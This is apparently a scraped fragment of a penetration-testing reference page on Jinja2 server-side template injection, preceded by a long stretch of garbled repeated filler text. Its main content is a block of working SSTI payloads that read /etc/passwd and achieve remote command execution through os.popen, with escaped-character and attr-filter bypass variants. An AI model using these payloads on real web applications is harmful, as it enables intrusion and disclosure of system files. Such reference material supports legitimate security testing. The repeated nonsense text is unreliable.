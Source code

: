'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' v
```python
# Read file
{{ request.__class__._load_form_data.__globals__.__builtins__.open("/etc/passwd").read() }}

# RCE
{{ config.__class__.from_envvar.__globals__.__builtins__.__import__("os").popen("ls").read() }}
{{ config.__class__.from_envvar["__globals__"]["__builtins__"]["__import__"]("os").popen("ls").read() }}
{{ (config|attr("__class__")).from_envvar["__globals__"]["__builtins__"]["__import__"]("os").popen("ls").read() }}

{% raw %}
{% with a = request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("ls")["read"]() %} {{ a }} {% endwith %}
{% endraw %}

## Extra
## The global from config have a access to a function called import_string
## with this function you don't need to access the builtins
{{ config.__class__.from_envvar.__globals__.import_string("os").popen("ls").read() }}

# All the bypasses seen in the previous sections are also valid
```
## References

* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2)
* Check [attr trick to bypass blacklisted chars in here](../../generic-methodologies-and-resources/python/bypass-python-sandboxes/#python3).
* [https://twitter.com/SecGus/status/1198976764351066113](https://twitter.com/SecGus/status/1198976764351066113)
* [https://hackmd.io/@Chivato/HyWsJ31dI](https://hackmd.io/@Chivato/HyWsJ31dI)

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
